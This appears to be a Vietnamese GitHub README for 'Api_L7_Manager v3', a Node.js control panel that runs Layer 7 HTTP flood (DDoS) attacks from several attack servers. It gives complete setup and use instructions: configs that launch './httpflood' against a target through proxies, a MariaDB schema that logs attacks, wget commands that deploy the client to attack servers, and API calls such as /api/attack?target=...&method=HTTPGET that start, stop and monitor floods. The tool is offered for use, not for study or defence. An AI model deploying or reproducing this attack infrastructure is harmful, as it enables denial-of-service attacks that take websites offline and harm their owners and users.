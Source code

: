 <h2>Trình quản lý API v3 NodeJS cho các cuộc tấn công Lớp 7</h2>

<h4>API này rất an toàn và nhanh chóng (mất 2 lần ping giữa API và phần phụ trợ, tức là ping là 60ms, sẽ chỉ mất 120ms để khởi động cuộc tấn công)</h4>

<h4>Ưu điểm hơn bản v2 có thể xem được status quản lý và dừng được toàn bộ các cuộc tấn công của tất cả máy chủ đang chạy</h4>
<h1>Cài đặt: trên centos</h1>

***cài đặt nodejs***
```sh
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.38.0/install.sh | bash
source ~/.nvm/nvm.sh
nvm install 14.17.3
nvm use 14.17.3
npm i express mysql
```
***cài đặt cơ sở dữ liệu***
```
sudo yum install mariadb-server
sudo systemctl start mariadb
sudo systemctl enable mariadb
sudo systemctl status mariadb
sudo mysql_secure_installation
mysql -u root -p
```
<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "1": {
        "name": "1",
        "ip": "1.1.1.1",
        "port": 8888
    },
    "2": {
        "name": "2",
        "ip": "2.2.2.2",
        "port": 8888
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt"
}
```

<h3>Update settings.json</h3><br>

```json
{
    "database": {
        "host": "localhost",
        "user": "DATABASE_USER",
        "password": "DATABASE_PASSWORD",
        "database": "DATABASE_NAME"
    },
    "socket_token": "SECRET_TOKEN", 
    "max_attacksn": 10,
    "api_port": 8888
}
```

<h3>Update client.js:</h3><br>

```js
const socket_port = 8888; // cổng API
const socket_token = "SECRET_TOKEN"; // mã thông báo bí mật của bạn để bảo vệ kết nối TCP
const allowed_ips = ['1.1.1.1']; // IP máy chủ API
```

<h3>Thiết lập cơ sở dữ liệu</h3><br>

```sql
CREATE DATABASE manager;

use manager;

CREATE TABLE `attacks` (
    `id` int(11) NOT NULL,
    `server` varchar(300) DEFAULT NULL,
    `target` text DEFAULT NULL,
    `duration` int(11) NOT NULL,
    `method` varchar(255) DEFAULT NULL,
    `date_sent` int(11) DEFAULT NULL,
    `stopped` int(11) NOT NULL DEFAULT 0,
    `attack_id` int(11) DEFAULT NULL
);

ALTER TABLE `attacks` ADD PRIMARY KEY (`id`);

ALTER TABLE `attacks` MODIFY `id` int(11) NOT NULL AUTO_INCREMENT;
```

***sử lý lỗi từ chối kết nối***

1 Truy cập MariaDB: Đăng nhập vào máy chủ chứa cơ sở dữ liệu MariaDB bằng tài khoản có quyền quản trị. Bạn có thể sử dụng lệnh sau để đăng nhập vào MariaDB:
```mysql -u root -p```

2 Thiết lập quyền truy cập cho máy chủ của bạn: MariaDB sử dụng kiểm tra quyền truy cập dựa trên địa chỉ IP. Để cho phép máy chủ của bạn kết nối, bạn cần cấp quyền cho địa chỉ IP của máy chủ đó.

```GRANT ALL PRIVILEGES ON *.* TO 'tên_tài_khoản'@'địa_chỉ_IP_máy_chủ' IDENTIFIED BY 'mật_khẩu';```

Trong đó:

`tên_tài_khoản` là tên tài khoản truy cập MariaDB.

`địa_chỉ_IP_máy_chủ` là địa chỉ IP của máy chủ cần kết nối.

`mật_khẩu` là mật khẩu của tài khoản.

Lưu ý rằng bạn cần phải thay thế các giá trị này bằng thông tin của bạn.

3 Làm mới quyền truy cập: Sau khi bạn đã thay đổi quyền, hãy làm mới quyền để áp dụng thay đổi:
```FLUSH PRIVILEGES;```

4 thoát
```exit;```

### Sau đó, tải `client.js` lên máy chủ tấn công và tải `api.js` `server.json` `command.json` `settings.json` lên máy chủ API
```
wget https://raw.githubusercontent.com/DauDau432/Api_L7_Manager/main/api.json
wget https://raw.githubusercontent.com/DauDau432/Api_L7_Manager/main/commands.json
wget https://raw.githubusercontent.com/DauDau432/Api_L7_Manager/main/settings.json
wget https://raw.githubusercontent.com/DauDau432/Api_L7_Manager/main/servers.json
```
```
wget https://raw.githubusercontent.com/DauDau432/Api_L7_Manager/main/client.js
```

### khởi động
```
screen -S APIv3 -dm node api.js && screen -r APIv3
```
```
screen -S CLIENT -dm node client.js && screen -r CLIENT
```
### Proxy ngược

***Nên tạo proxy ngược bằng Nginx để sử dụng API của bạn:***

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api {
        proxy_pass http://backend:8888/api;
    }
}
```

Thay thế `'http://backend:3000/api'` bằng IP máy chủ API của bạn

### Sử dụng API

Gửi yêu cầu tới API bằng các trường bắt buộc

`http://api.yourdomain.com/api/attack?target=https://website.com&duration=120&method=HTTPGET&server=1`

Bạn có thể dừng các cuộc tấn công bằng cách gửi yêu cầu tới API bằng ID tấn công

`http://api.yourdomain.com/api/stop?attack_id=[id]`

Bạn cũng có thể xem tất cả các cuộc tấn công đang diễn ra và việc sử dụng máy chủ bằng cách gửi yêu cầu tới API

`http://api.yourdomain.com/api/status`

Bạn cũng có thể dừng tất cả các cuộc tấn công gửi yêu cầu tới API

`http://api.yourdomain.com/api/stop_all`
